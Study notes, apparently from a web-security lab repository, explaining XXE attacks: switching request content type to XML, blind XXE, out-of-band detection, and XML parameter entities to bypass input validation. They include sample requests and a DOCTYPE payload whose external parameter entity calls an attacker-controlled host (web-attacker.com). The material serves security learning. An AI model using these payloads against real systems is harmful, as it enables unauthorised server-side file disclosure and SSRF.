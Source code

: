 # XXE attacks via modified content type
Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
`POST /action HTTP/1.0 Content-Type: application/x-www-form-urlencoded Content-Length: 7 foo=bar`

Then you might be able submit the following request, with the same result:
`POST /action HTTP/1.0 Content-Type: text/xml Content-Length: 52 <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

# Blind XXE vulnerabilities

Many instances of XXE vulnerabilities are blind. This means that the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

Blind XXE vulnerabilities can still be detected and exploited, but more advanced techniques are required. You can sometimes use out-of-band techniques to find vulnerabilities and exploit them to exfiltrate data. And you can sometimes trigger XML parsing errors that lead to disclosure of sensitive data within error messages.

Being blind means that it is harder to recognize, and also to exploit.
The first way to detect XXE is to perform a SSRF to an endpoint that the attacker controls, in order to verify if the request is being performed by the application. 
This is the first lab that covers this topic: [blind_xxe_ssrf_to_attacker_endpoint](labs/blind_xxe_ssrf_to_attacker_endpoint.md)

## Blind XXE using parameterentity to bypass input validation
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand:
`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
